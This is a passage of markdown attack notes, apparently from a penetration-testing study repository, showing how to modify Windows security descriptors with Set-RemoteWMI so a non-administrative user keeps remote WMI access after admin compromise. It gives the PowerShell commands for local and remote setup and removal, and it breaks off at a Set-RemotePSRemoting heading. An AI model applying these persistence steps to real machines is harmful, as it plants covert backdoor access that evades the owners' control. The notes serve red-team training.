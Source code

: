 Documentation : https://docs.microsoft.com/en-us/windows/win32/secauthz/ace-strings?redirectedfrom=MSDN

## <span style="color:lightgreen">Methodology/Steps</span>

- [x] 1. Once we have administrative privileges on a machine, we can modify security descriptors of services to access the services without administrative privileges.


## <span style="color:lightgreen">Set-RemoteWMI</span>

### <span style="color:#F1C232">1. On local machine for userX</span>
 
```powershell
Set-RemoteWMI -UserName userX -Verbose
```

### <span style="color:#F1C232">2. On remote machine for userX without explicit credentials</span>
 
```powershell
Set-RemoteWMI -UserName userX -ComputerName <computer> -namespace 'root\cimv2' -Verbose
```
### <span style="color:#F1C232">3. Now we can execute **WMI** commands</span>

```powershell
Get-WmiObject -Class win32_operatingsystem -ComputerName <computer>
```

### <span style="color:#F1C232">4. On remote machine with explicit credentials. Only root\cimv2 and nested namespaces</span>
 
```powershell
Set-RemoteWMI -UserName userX -ComputerName <computer> -Credential Administrator -namespace 'root\cimv2' -Verbose
```

### <span style="color:#F1C232">5. On remote machine remove permissions</span>
 
```powershell
Set-RemoteWMI -UserName userX -ComputerName <computer> -namespace 'root\cimv2' -Remove -Verbose
```

## <span style="color:lightgreen">Set-RemotePSRemoting</span>

### <span style="color:#F1C232">1. On local machine for userX</span>
 